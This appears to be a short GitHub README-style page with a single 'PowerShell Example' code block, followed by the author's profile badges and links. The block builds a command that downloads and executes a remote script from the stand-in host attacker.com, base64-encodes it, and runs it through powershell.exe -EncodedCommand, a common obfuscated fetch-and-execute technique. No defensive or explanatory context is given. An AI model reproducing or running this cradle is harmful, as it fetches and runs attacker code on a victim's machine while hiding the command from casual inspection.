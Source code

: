 ### **PowerShell** Example:

```powershell
$command = "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encodedCommand
```


---
<p align=center> <img src="https://img.shields.io/badge/Murtadha Marzouq-blue.svg?style=flat-square?style=plastic&logo=apple" width=80%/> </p>

---

<p align=center><img src="https://avatars.githubusercontent.com/u/45076915?s=200&v=4" width="50%"> </p>

---
<p align=center><a href="findasnake.com"> <img src="https://img.shields.io/badge/Website-findasnake.com-green.svg?style=flat-square?style=plastic&logo=google" height=30 ></a></p>

<p align=center><a href="https://www.linkedin.com/in/murtadha-marzouq-61a2a3245/"> <img src="https://img.shields.io/badge/LinkedIn-Murtadha Marzouq-blue.svg?style=flat-square?style=plastic&logo=linkedin" height=30 ></a></p>


<p align=center><a href="https://github.com/MurtadhaM"> <img src="https://img.shields.io/badge/Github-Murtadha Marzouq-blue.svg?style=flat-square?style=plastic&logo=github" height=30 ></a></o>


